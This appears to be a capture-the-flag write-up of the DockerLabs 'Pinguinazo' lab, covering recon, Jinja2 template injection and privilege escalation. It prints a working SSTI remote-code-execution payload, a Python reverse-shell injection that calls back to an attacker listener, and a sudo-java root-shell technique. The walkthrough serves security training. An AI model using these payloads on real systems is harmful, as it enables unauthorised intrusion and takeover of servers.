



# Pinguinazo — DockerLabs

**Platform:** DockerLabs  
**Difficulty:** Easy  
**OS:** Linux  
**Techniques:** SSTI (Jinja2), RCE, Reverse Shell, Sudo + Java PrivEsc (GTFOBins)

---

## Reconnaissance

Initial Nmap scan:

```bash
nmap -sV 172.17.0.2
```

Port discovered: **5000/tcp — HTTP** (Flask application).

Gobuster running in parallel while inspecting the web app:

```bash
gobuster dir -u http://172.17.0.2:5000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 10 --no-error
```

---

## Web Application Analysis

The web app exposes a registration form with several fields. When a value is entered in the **PinguNombre** field, the application renders it back with a `Hello` prefix.

This suggests the input is being processed directly by a template engine — a classic **SSTI (Server-Side Template Injection)** vector.

---

## Exploitation — Jinja2 SSTI

### SSTI Confirmation

Input in the PinguNombre field:

```
{{7*7}}
```

The application returns `49` — confirms the template engine evaluates the expression.

### Engine Identification

```
{{7*'7'}}
```

Result: `7777777` → engine identified: **Jinja2 (Python)**.

### RCE — Remote Code Execution

```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

The application returns `uid=1001(pinguinazo)` — RCE confirmed.

### Reverse Shell

With `nc -lvnp 4444` listening on our machine, we inject the following payload:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c \'import socket,subprocess,os;s=socket.socket();s.connect(("172.17.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])\'').read()}}
```



Shell obtained as user **pinguinazo**:



---

## Privilege Escalation

Checking sudo permissions:

```bash
sudo -l
```

Output:

```
(ALL) NOPASSWD: /usr/bin/java
```

The user can run `java` as root with no password. We check **GTFOBins** for Java.

We create a `Shell.java` file:

```java
public class Shell {
    public static void main(String[] args) throws Exception {
        new ProcessBuilder("/bin/sh").inheritIO().start().waitFor();
    }
}
```

Compile and execute:

```bash
javac Shell.java
sudo java Shell
```



Shell as **root** obtained.

---

## Summary

|Phase|Technique|
|---|---|
|Reconnaissance|Nmap, Gobuster|
|Initial Access|Jinja2 SSTI → RCE → Reverse Shell|
|Privilege Escalation|sudo + Java → GTFOBins|

**Related CVE:** Flask/Jinja2 SSTI has no specific CVE — it is a misconfiguration caused by unsafe rendering of user input.

---

## What I Learned

- **SSTI detection methodology** — when an application reflects user input, testing with `{{7*7}}` is the first step to confirm template injection. A numeric result means the engine is evaluating expressions.
- **Jinja2 engine fingerprinting** — `{{7*'7'}}` returning `7777777` uniquely identifies Jinja2, which determines the payload syntax to use.
- **Jinja2 RCE payload structure** — accessing Python internals through `request.application.__globals__.__builtins__.__import__('os')` to reach `popen()` and execute system commands.
- **Quote escaping in nested payloads** — embedding a Python one-liner inside a Jinja2 `popen()` call requires careful handling of single and double quotes to avoid breaking the string context.
- **GTFOBins — Java sudo privesc** — when a user can run `java` as root via sudo, a minimal `Shell.java` compiled with `javac` and executed with `sudo java Shell` spawns a root shell through `ProcessBuilder`.